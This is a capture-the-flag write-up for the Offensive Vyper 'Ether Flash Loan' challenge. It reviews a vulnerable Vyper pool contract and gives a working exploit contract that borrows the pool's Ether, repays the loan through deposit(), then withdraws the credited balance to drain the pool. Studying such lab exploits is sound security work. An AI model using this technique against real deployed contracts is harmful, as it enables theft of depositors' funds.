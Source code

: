 ## 1) Challenge

> <cite>The Ether Flash Loan contract allows liquidity providers deposit Ether. The Ether in the pool can be lent out in a flash loan. The receiver of the flash loan must expose a payable `execute()` function. By the end of `execute()`, the flash loan must be payed back. There is no fee. Your objective is to drain the flash loan pool, despite those pesky reentrancy guards.</cite>

Challenge created by [@jtriley_eth](https://twitter.com/jtriley_eth).


## 2) Code Review

`EtherFlashLoan.vy` contract ([source code](https://github.com/JoshuaTrujillo15/offensive_vyper/blob/main/contracts/ether-flash-loan/EtherFlashLoan.vy)):

```python

# @version ^0.3.2

"""
@title Ether Flash Loan Pool
@author jtriley.eth
"""

interface IFlashLoanReceiver:
    def execute(): payable

event Deposit:
    account: indexed(address)
    amount: uint256

event Withdrawal:
    account: indexed(address)
    amount: uint256


deposits: public(HashMap[address, uint256])


@external
@payable
@nonreentrant('deposit')
def deposit():
    """
    @notice Deposits Ether.
    """
    self.deposits[msg.sender] += msg.value
    log Deposit(msg.sender, msg.value)


@external
@nonreentrant('withdraw')
def withdraw(amount: uint256):
    """
    @notice Withdraws Ether.
    @param amount Withdrwawal amount.
    @dev Throws when amount is gt than deposit.
    """
    sender_deposit: uint256 = self.deposits[msg.sender]

    assert sender_deposit >= amount, "not enough deposited"

    self.deposits[msg.sender] = sender_deposit - amount

    raw_call(msg.sender, b"", value=amount)

    log Withdrawal(msg.sender, amount)


@external
@nonreentrant('flash_loan')
def flash_loan(amount: uint256):
    """
    @notice Flash Loans to caller.
    @param amount Amount to flash loan.
    @dev Throws when insufficient balance OR flash loan isn't paid back.
    """
    balance_before: uint256 = self.balance

    assert balance_before >= amount, "not enough balance"

    IFlashLoanReceiver(msg.sender).execute(value=amount)

    assert self.balance >= balance_before, "flash loan not paid back"


@external
@payable
def __default__():
    """
    @notice For paying back flash loans ONLY.
    """
    pass

```

Contract main functions:

- `deposit` updates the accounting variable `deposits` with the `msg.value` deposited by the `msg.sender` (line `30`). It's a payable function
- `withdraw` is responsible for withdrawing the amount requested:
    - it accepts as input the amount to withdraw
    - it retrieves the amount deposited for a given account (line `42`),
    - it checks if the amount requested is less than the one deposited (line `44`)
    - it updates the balance of `msg.sender` (line `46`)
    - finally, it sends this amount to `msg.sender` (line `48`)
- `flash_loan` holds the logic for providing loans:
    - it accepts as input the loan amount
    - it checks if the caller has enough balance (line `63`)
    - it calls the `execute`, exposed by the receiver contract (line `65`)
    - finally, it checks if the amount is paid it back (line `67`)

All these functions are decorated with `nonreentrant` meaning they're guarded against reentrancy attacks.

To withdraw, we need first to have some amount deposited. The amount deposited is stored in the `deposits` variable inside the `deposit` function.

So if we can deposit some ETH, we can later withdraw them. Of course, we can use the `flash_loan` function to request some ETH. Also, once we receive them, in the same transaction, we can `deposit` them. In this case, if we deposit the ETH borrowed, we both updates the `deposits` variable, but we also pay the loan back because the `deposit` function is a payable function. However, once we have paid back the loan, the `deposits` variable will still hold the amount we have deposited. So if we then call the `withdraw` function, the condition at line `44` will be true, and thus we will be able to steal all the account ETH. 


## 3) Solution

The solution consists of the following steps:
- call the `flash_loan` function asking for `2 ETH` (the contract balance)
- inside the `execute` function, call the `deposit` function and deposit `2 ETH`
- once the execution of the `flash_loan` is completed, we call the `withdraw` function in order to receive the ETH amount saved in `deposits`

`ether-flash-loan.challenge.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let exploit = await (await ethers.getContractFactory('EtherFlashLoanExploit', deployer)).deploy(this.etherFlashLoan.address)

        await exploit.connect(attacker).run();

    })

```

`EtherFlashLoanExploit.vy`:
```python

# YOUR EXPLOIT HERE
@external
def run():
    amount: uint256 = self.target.balance

    Etherflashloan(self.target).flash_loan(amount)

    Etherflashloan(self.target).withdraw(amount)


@external
@payable
def execute():
    """
    @notice This is the interface the Flash Loan Pool will try to call.
    Changing the external interface of this function will revert.
    """
    
    raw_call(
        self.target,
        _abi_encode("", method_id=method_id("deposit()")),
        value=msg.value
    )


@external
@payable
def __default__():
    pass
    
```

You can find the complete code [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/test/ether-flash-loan.challenge.js) and [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/contracts/exploits/EtherFlashLoanExploit.vy).


## 4) References

- [Re-entrancy Locks](https://vyper.readthedocs.io/en/v0.3.7/control-structures.html?highlight=nonreentrant#re-entrancy-locks)